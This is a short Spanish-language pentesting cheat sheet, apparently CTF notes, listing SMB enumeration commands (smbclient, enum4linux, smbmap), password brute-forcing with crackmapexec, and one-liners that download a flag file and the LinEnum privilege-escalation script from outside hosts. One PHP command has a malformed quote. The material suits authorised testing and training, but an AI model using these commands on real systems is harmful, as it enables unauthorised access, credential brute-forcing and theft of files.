 # SMB

Listar recursos compartidos:

```shell
smbclient -N -L //IP
```

Listar recursos compartidos de un usuario:

```shell
smbclient -L IP -U user
```

Entrar al recurso compartido:

```shell
smbclient '\\IP\RESOURCE\' -U user
```

Enumeración de recursos y usuarios:

```shell
enum4linux -a IP
```

Enumeración si conocemos user y password:

```shell
smbmap -u 'user' -p 'pass' -H IP
```

Visualizar el contenido de un recurso:

```shell
smbmap -u 'user' -p 'pass' -H IP -r RESOURCE
```

Descarga de un archivo:

```shell
smbmap //IP/RESOURCE -U user%pass -c 'get file'
```

Conseguir la password de un user por fuerza bruta:

```shell
crackmapexec smb IP -u user -p wordlist | grep -v FAILURE
```

# DESCARGA DE ARCHIVOS DE UN SERVIDOR

Utilizaremos php y python:

```shell
php -r $file = file_get_contents("http://10.129.193.88/flag.txt"); file_put_contents("flag.txt",$file);'
```

```shell
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
